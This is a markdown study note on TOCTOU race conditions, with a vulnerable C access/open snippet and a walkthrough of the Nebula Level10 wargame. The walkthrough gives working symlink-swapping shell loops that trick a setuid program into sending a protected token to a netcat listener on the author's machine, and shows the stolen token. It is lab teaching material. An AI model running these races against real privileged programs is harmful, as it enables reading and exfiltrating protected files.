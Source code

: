 
## Race Conditions ( TOCTOU )

**Example C Code**
```
if (access("file", W_OK) != 0) {
   exit(1);
}

fd = open("file", O_WRONLY);
write(fd, buffer, sizeof(buffer));
```
1.Access Check for Write Permission  
2.Open file to write  
3.Write  

**Attack Idea**
```
access(file,W_OK)
symlink('/etc/passwd',file)
write(file)
```
**Race Between 2 Processes**
```
1.Access check and write
2.Symlink between writable and un-writable
```
When access check, it should be writable file and when actually write it should be un-writable

**Nebula Level10** [ [Description](https://exploit-exercises.lains.space/nebula/level10/) ]

```
#Condition 1
if(access(argv[1],  R_OK)  ==  0)
#Condition 2
ffd  =  open(file,  O_RDONLY);
```
Program Permission
```
level10@nebula:~$ ls -l /home/flag10
total 9
-rwsr-x--- 1 flag10 level10 7743 2011-11-20 21:22 flag10
-rw------- 1 flag10 flag10    37 2011-11-20 21:22 token
```
token is read only file for flag10 user
```
#Test Run
level10@nebula:~$ /home/flag10/flag10
/home/flag10/flag10 file host
        sends file to host if you have access to it
#Test with readable file
echo "LOL" > test
level10@nebula:~$ /home/flag10/flag10 /home/level10/test 192.168.43.234
Connecting to 192.168.43.234:18211 .. Connected!
Sending file .. wrote file!
#Our Side
C:\Users\thinb>nc -lp 18211
.oO Oo.
LOL
#What about token?
level10@nebula:/home/flag10$ ./flag10 token 192.168.43.234
You don't have access to token
```
Race 1
```
# symlink /tmp/faketoken and /tmp/token ( All fake )
# symlink /tmp/token and /home/flag10/token ( Fake and Unreadable )
while :; do ln -fs /tmp/faketoken /tmp/token; ln -fs /home/flag10/token /tmp/token; done
```
Race 2
```
#/tmp/token is symlinking between readable and unreadable
#access check -> readable
#open -> unreadable
while :; do /home/flag10/flag10 /tmp/token 192.168.43.234 ; done
```
Result
```
C:\Users\thinb>nc -lvp 18211
listening on [any] 18211 ...
Warning: forward host lookup failed for nebula: h_errno 11001: HOST_NOT_FOUND
connect to [192.168.43.234] from nebula [192.168.43.229] 56458: HOST_NOT_FOUND
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
Race Condition on Web
[ [Link](https://www.youtube.com/watch?v=P-zrl6oyim4) ]

**Reference**
[https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)  
[https://nitesculucian.github.io/2018/07/16/exploit-exercises-nebula-level-10/](https://nitesculucian.github.io/2018/07/16/exploit-exercises-nebula-level-10/)  
[https://seedsecuritylabs.org/Labs_16.04/Software/Race_Condition/](https://seedsecuritylabs.org/Labs_16.04/Software/Race_Condition/)  

